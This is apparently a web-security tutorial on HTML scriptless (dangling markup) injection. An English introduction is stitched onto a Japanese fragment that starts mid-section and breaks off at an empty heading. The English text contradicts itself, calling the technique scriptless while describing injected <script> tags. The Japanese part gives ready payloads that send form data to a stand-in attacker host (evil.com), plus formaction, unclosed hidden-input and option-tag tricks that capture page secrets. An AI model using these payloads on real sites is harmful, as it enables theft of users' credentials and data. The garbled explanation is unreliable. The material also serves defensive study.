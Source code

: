 Web forms are commonly used to collect user input, such as login credentials or personal information. In some cases, the form data is not properly sanitized or validated on the server side, allowing an attacker to inject malicious code into the form fields.

HTML scriptless injection is a technique that takes advantage of this vulnerability by injecting HTML tags into the form fields. These tags are designed to execute JavaScript code when the form is submitted, allowing the attacker to steal sensitive information or perform other malicious actions.

To exploit this vulnerability, the attacker needs to identify a form that is vulnerable to HTML scriptless injection. This can be done by manually inspecting the HTML source code of the web application or by using automated scanning tools.

Once a vulnerable form is identified, the attacker can inject HTML tags into the form fields. For example, the attacker may inject a `<script>` tag with JavaScript code that captures the form data and sends it to a remote server controlled by the attacker.

To prevent HTML scriptless injection attacks, web developers should ensure that all user input is properly sanitized and validated on the server side. This includes checking for and removing any HTML tags or special characters that could be used to inject malicious code.

Additionally, web application firewalls (WAFs) can be used to detect and block HTML scriptless injection attacks. WAFs can analyze incoming requests and block any requests that contain suspicious or malicious code.

By understanding and exploiting vulnerabilities like HTML scriptless injection, penetration testers can help organizations identify and fix security flaws in their web applications, protecting sensitive user data from being stolen or misused.
```markup
<base href='http://evil.com/'>
```
次に、データをパスに送信するフォーム（例：`<form action='update_profile.php'>`）は、データを悪意のあるドメインに送信します。

### フォームの盗み出し2

フォームヘッダーを設定します：`<form action='http://evil.com/log_steal'>` これにより、次のフォームヘッダーが上書きされ、フォームのすべてのデータが攻撃者に送信されます。

### フォームの盗み出し3

ボタンは、属性 "formaction" を使用して、フォームの情報が送信されるURLを変更することができます。
```markup
<button name=xss type=submit formaction='https://google.com'>I get consumed!
```
攻撃者はこれを使って情報を盗むことができます。

### クリアテキストの秘密の盗み出し 2

最新のテクニックを使用してフォームを盗む（新しいフォームヘッダを注入する）後、新しい入力フィールドを注入することができます：
```markup
<input type='hidden' name='review_body' value="
```
そして、この入力フィールドには、HTML内のダブルクォートと次のダブルクォートの間のすべてのコンテンツが含まれます。この攻撃は、"_**平文の秘密の盗み出し**_"と"_**フォームの盗み出し2**_"を組み合わせています。

同じことを、フォームと`<option>`タグを注入することで行うこともできます。閉じられた`</option>`が見つかるまでのすべてのデータが送信されます。
```markup
<form action=http://google.com><input type="submit">Click Me</input><select name=xss><option
```
### フォームパラメーターのインジェクション
